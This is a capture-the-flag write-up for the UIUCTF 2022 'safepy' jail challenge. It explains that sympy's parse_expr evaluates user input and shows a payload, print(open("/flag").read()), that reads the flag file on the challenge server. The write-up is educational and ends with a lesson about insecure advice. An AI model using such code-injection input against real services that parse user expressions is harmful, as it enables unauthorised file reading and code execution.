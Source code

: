 # UIUCTF 2022 - safepy Writeup  
- Type - Jail  
- Name - safepy  
- Points - 50

## Description  
```markdown  
My calculator won't be getting pwned again...

$ nc safepy.chal.uiuc.tf 1337

author: tow_nater

[handout.tar.gz]  
```

## Writeup  
When you unzip the provided file for the challenge, you'll get the Python
script run server-side along with some supporting files for the Docker setup.
Outside of [line 28 of the Dockerfile](https://github.com/BYU-CTF-
group/writeups/blob/main/UIUCTF_2022/safepy/Dockerfile) that shows the flag is
located at `/flag`, the only useful file is `main.py`. The script is pretty
short:

```python  
from sympy import *

def parse(expr):  
   # learned from our mistake... let's be safe now  
   # https://stackoverflow.com/questions/33606667/from-string-to-sympy-
expression  
   # return sympify(expr)

   # https://docs.sympy.org/latest/modules/parsing.html  
   return parse_expr(expr)

print('Welcome to the derivative (with respect to x) solver!')  
user_input = input('Your expression: ')  
expr = parse(user_input)  
deriv = diff(expr, Symbol('x'))  
print('The derivative of your expression is:')  
print(deriv)  
```

Our input is taken, parsed using `parse_expr`, and then stuck into the `diff`
function with the output printed out. The `parse()` function gives us two very
helpful links, [one](https://docs.sympy.org/latest/modules/parsing.html) to
the documentation and
[another](https://stackoverflow.com/questions/33606667/from-string-to-sympy-
expression) about why `sympify` is dangerous. Reading through this article
gave me an idea for how to approach this - `sympify` used `eval()` internally,
so if I could get either `diff` or `parse_expr` to do the same, that would be
great!

While reading through the documentation provided, I read that an optional
parameter for `parse_expr` was `evaluate`, with the default setting to True.
This means that, by default, any expressions will be simplified if possible,
which means it will use `eval()` inside of it.

I started out with a test payload to see what it would do if I just input
whatever code I wanted to - `print('a')`:

```  
$ nc safepy.chal.uiuc.tf 1337  
== proof-of-work: disabled ==  
Welcome to the derivative (with respect to x) solver!  
Your expression: print('a')  
a  
```

Since it looked like it ran the code, I decided to just put in a payload to
print out the flag:

```  
nc safepy.chal.uiuc.tf 1337  
== proof-of-work: disabled ==  
Welcome to the derivative (with respect to x) solver!  
Your expression: print(open("/flag").read())  
uiuctf{na1v3_0r_mal1ci0u5_chang3?}  
```

And it worked!!

**Flag:** `uiuctf{na1v3_0r_mal1ci0u5_chang3?}`

## Real-World Application  
My favorite part of this challenge is the real world application. This entire
question was completely based off of a StackOverflow answer, and - as everyone
knows - StackOverflow is the *source* for all programming information. This
particular answer was from someone who said putting user-controlled input to
`sympify()` is dangerous since it uses `eval` natively, so the `parse_expr`
function should be used instead (implying this one was safe). As our problem
demonstrated, that was **not** the case - `parse_expr` was just as dangerous
as `sympify`. Did the user who submitted this answer know this? Not sure. But
the moral of the story is **you can't always trust answers from random people
on the internet**...

Original writeup (https://github.com/BYU-CTF-
group/writeups/tree/main/UIUCTF_2022/safepy).